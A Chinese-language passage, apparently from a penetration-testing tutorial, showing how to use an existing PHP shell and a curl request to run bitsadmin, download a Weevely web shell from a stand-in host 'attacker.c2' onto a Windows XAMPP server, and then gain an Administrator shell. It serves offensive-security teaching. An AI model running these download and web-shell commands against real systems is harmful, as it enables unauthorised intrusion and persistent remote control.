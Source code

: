 Curl 有一个 `--data-urlencode` 选项，它会将我们的命令进行 URL 编码，使其通过 HTTP 传输时不会引发任何问题。`-G` 选项确保编码后的数据通过 `GET` 请求传递。

由于 PowerShell 命令在一个独立的进程中运行，简单的 PHP shell `xampp.php` 将无法返回任何成功或失败的消息。我们可以通过尝试使用 Weevely 客户端连接到该 shell 来验证成功与否。

尽管现在不太常见，但目标 Windows 系统上可能会禁用或无法使用 PowerShell。在这种情况下，使用 `bitsadmin.exe` 下载 payload 完全可行。将正确的值插入后，我们可以抓取 Weevely shell 并将其放入 `htdocs` 文件夹。

我们将使用的 `bitsadmin` 命令模板如下：

```
**bitsadmin /transfer myjob /download /priority high [current shell url] [save location]**

```

就像 PowerShell 下载器一样，您需要在命令中展开变量，并将它们插入到 `curl` 模板中，如下所示：

```
root@kali:/var/www/html# curl -G http://api.ecorp.local/xampp/xampp.php --data-urlencode **"password=ECorpAppTest11251&cmd=bitsadmin /transfer myjob /download /priority high http://attacker.c2/shell.php c:\\xampp\\htdocs\\xampp\\test.php"**
BITSADMIN version 3.0 [ 7.5.7601 ]
BITS administration utility.
(C) Copyright 2000-2006 Microsoft Corp.
BITSAdmin is deprecated and is not guaranteed to be available in future versions of Windows.
Administrative tools for the BITS service are now provided by BITS PowerShell cmdlets.
Transfer complete.
root@kali:/var/www/html#
```

### 注意

正如 `bitsadmin` 输出中明确指出的，二进制文件已被弃用。尽管它在所有 Windows 版本中仍然可用，但将来可能不再如此。然而，企业通常更新 Windows 版本较慢，因此您可能仍然可以依赖此工具多年。

现在，Weevely 客户端应该能够连接到远程主机上的 `test.php` shell。执行此操作的语法不言自明：

```
root@kali:/var/www/html# **weevely http://api.ecorp.local/xampp/test.php ECorpAppTest11251**
[+] weevely 3.2.0
[+] Target:     ECORP-PRD-API01:C:\xampp\htdocs\xampp
[+] Session:    /root/.weevely/sessions/api.ecorp.local/test_0.session
[+] Shell:      System shell
[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.
weevely>

```

我们可以在 Weevely shell 中发出命令，这些命令将直接传递给被攻陷的主机：

```
weevely> **whoami**
ECORP-PRD-API01\Administrator
ECORP-PRD-API01:C:\xampp\htdocs\xampp $
```
